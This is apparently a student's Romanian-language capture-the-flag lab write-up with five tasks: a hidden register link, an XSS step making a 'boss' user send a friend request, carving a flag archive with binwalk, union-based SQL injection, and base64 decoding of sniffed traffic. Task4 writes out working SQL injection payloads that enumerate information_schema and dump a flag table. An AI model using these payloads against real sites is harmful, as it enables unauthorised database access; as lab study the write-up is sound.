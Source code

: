 # MARIN MARIUS DANIEL 332CC

### Task1
- ne conectam la dev-machine folosind `./connect.sh` iar apoi vedem ce adresa ip avem
- scanam porturile disponibile si vedem un `port deschis de http` la o adresa ip
- luam adresa ip si portul de http si le dam in scriptul de `./webtunnel.sh` pentru a ne
conecta pe web la `localhost:8080`
- pe site observam ca pagina de register e fake, si cautam cu inspect element in codul
sursa al site ului si vedem ca link ul bun este `/auth/register_real_one`
- ne facem cont, ne conectam si cautam iar cu inspect element in codul sursa al site
ului si gasim flagul

### Task2
- din hint uri si analiza sursei paginii web observam faptul ca putem comunica cu pisica
boss prin nyan cat (avem XSS simulators doar pentru ei)
- daca ne uitam in main.js observam niste functii pe care am putea sa le apelam ca sa
rezolvam acest task
- logica este aceea de a-i trimite lui nyan cat un mesaj care sa contina un script pe care
sa il trimita pentru a fi executat de catre boss (acesta sa apeleze addFriendRequest cu id ul
nostru)

### Task3
- avem la boss in pagina un hint cu scriptul `backup.sh` care trebuie luat de pe pagina
- observam ca scriptul combina 2 arhive intr una singura si ii pune numele cu o data
generata random intr un interval
- odata luata arhiva, se inspecteaza cu un tool pentru a vedea offset ul headerelor cum
ar fi `binwalk`
- se extrage cu tail offsetul arhivei flag, care se dezarhiveaza si astfel avem acces
la fisierul `flag.txt`

### Task4
- se testeaza manual url-urile site ului si se fac incercari de SQL injection pana se 
observa ca vulnerabilitatea este la adresa `http://localhost:8080/inside/p/`
- se incearca aflarea nr de coloane printr un payload care primeste ca arg nr coloanei
pentru a vedea la ce index apare eroarea (ex: ' order by X -- ;)
- se trimit mai multe atacuri pentru a afla informatia pas cu pas:
1. se observa ca se afiseaza informatia la userul 3 si apar duplicate => distinct
`' union select distinct 1, 2, group_concat(distinct(table_schema)), 4, 5, 6, 7, 8
from information_schema.tables -- ;`

observam web_270

1. `' union select distinct 1, 2, group_concat(table_name), 4, 5, 6, 7, 8 from 
information_schema.tables where table_schema='web_270' -- ;`

observam flags64173

1. `' union select 1, 2, group_concat(column_name), 4, 5, 6, 7, 8
from information_schema.columns where table_schema='web_270' and table_name='flags64173' -- ;`

observam zaflag
  
1. `' union select 1, 2, zaflag, 4, 5, 6, 7, 8 from flags64173 -- ;`

observam flag ul

### Task5
- se scaneaza traficul cu tcpdump si se observa ca anumite pachete contin `NYAN.NYAN..`
- se ia partea dintre NYAN si se decodifica cu `base64`
